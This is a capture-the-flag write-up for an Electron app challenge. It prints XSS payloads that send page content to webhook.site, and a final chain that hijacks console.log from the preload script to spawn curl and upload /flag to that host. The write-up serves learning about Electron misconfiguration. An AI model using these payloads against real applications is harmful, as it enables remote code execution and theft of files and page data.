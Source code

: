 ```yaml
---
created: 2024-06-21T22:48
updated: 2024-06-23T08:43
---
```


# Elec
# Analysis

- Seems to be XSS, but the flag is stored on the file system `/flag`.
- It's an electron app
# Probing

First let's prob it with bunch of XSS payloads, check fields on `window` etc.

To prevent the script from running on my own computer, I've set a `localStorage` item called `no-go`.

```html
<img src =q onerror="if(!localStorage.getItem('no-go')){
					 window.addEventListener('load', async () => {
	setTimeout(()=>{location='https://webhook.site/?w='+document.body.innerHTML.replace(/\s+/g,'');},1000)
	 });}">

<img src =q onerror="if(!localStorage.getItem('no-go'))window.addEventListener('load', async () => {
	setTimeout(()=>{location='https://webhook.site/?w='+JSON.stringify(Object.keys(window));},1000)
	 });">
	 
<img src =q onerror="if(!localStorage.getItem('no-go'))window.addEventListener('load', async () => {try{
	const replaceWithTypes = obj => Object.fromEntries(Object.entries(obj).map(([k, v]) => [k, [typeof v, typeof v === 'function'?v.toString():v]]));
	location='https://webhook.site/?w='+JSON.stringify(replaceWithTypes(window.__Process$));
	}catch(e){
    location='https://webhook.site/?w='+String(e);
    }});">
```

```html
<navclass="mb-3navbarnavbar-expand-lgbg-body-tertiary"><divclass="container"><aclass="navbar-brand"href="/">Blog</a></div></nav><divclass="container"><h1class="mb-3">w</h1><divid="content"class="mb-3"><imgsrc="q"onerror="if(!localStorage.getItem('no-go'))window.addEventListener('load',async()=>{setTimeout(()=>{location='https://webhook.site/?w=' document.body.innerHTML.replace(/\s /g,'');},1000)});"></div><formmethod="post"action="/report/cccc208b-9e06-4ed5-8ff3-35ebe90fa330"><buttontype="submit"class="btnbtn-secondary">Report</button></form></div><footerid="admin-footer"class="mt-3p-3bg-light"><divclass="container">Adminconsole<spanid="app-version">0.0.1</span>,Node.js<spanid="node-version">20.11.1</span>,Chromium<spanid="chrome-version">124.0.6367.230</span>,Electron<spanid="electron-version">30.0.8</span>,<spanid="kernel-info">Linux74e6f3ed79eb6.1.92-99.174.amzn2023.x86_64
```

Other than that, nothing interesting.

> `window.__Process$` was just a dummy `process` object with no real use.

---
# Electron RCE

```js
const win = new BrowserWindow({
	width: 800,
	height: 600,
	webPreferences: {
		preload: path.join(__dirname, "preload.js"),
		contextIsolation: false,
		sandbox: false,
	},
});
```

With some googling I found out that `contextIsolation: false` means the renderer runs in the same context, so I am actually running on node's context.

> Failed attempt on prototype pollution
> Tried to pollute `options.shell` `options.file` etc, didn't work.

# Final Solution

```html
<img src =q onerror="if (!localStorage.getItem('no-go')) {
    let s = [];
  	console.log = (cp) => {
	  	if(!cp.spawnfile) return;
	  	const cp2 = new cp.constructor();
		cp2.spawn({ shell: true, file: 'curl', args: ['curl', '-F', 'flag=@/flag', 'https://webhook.site/'] });
		s.push('yay!')
  	};
    window.addEventListener('load', async () => {
        setTimeout(() => {
            let p = (new URLSearchParams({
                kernal: document.getElementById('kernel-info').textContent,
                logs: JSON.stringify(s),
                body: document.body.innerHTML.replace(/\s+/g, ' '),
            })).toString();
            location = 'https://webhook.site/?' + p.toString();
        }, 1000)
    });
}">
```

## Explanation

In `preload.js`

```js
...
const cp = spawn("uname", ["-a"]);
console.log(cp);
...
```

We can see that the child process object is sent to `console.log`, which we can take control over.

So we now have access to `cp`, we will create a new child process object with the command we want to run, and that is `curl`.

```js
const cp2 = new cp.constructor();
cp2.spawn({ shell: true, file: 'curl', args: ['curl', '-F', 'flag=@flag', 'https://webhook.site/'] });
```

## Simplified

```html
<img src =q onerror="{
	console.log = (cp) => {
		if(!cp.spawnfile) return;
		const cp2 = new cp.constructor();
		cp2.spawn({ shell: true, file: 'curl', args: ['curl', '-F', 'flag=@/flag', 'https://webhook.site/'] });
	};
}">
```

```
FLAG{r3m07e_c0d3_execu710n_v1a_3l3c7r0n}
```
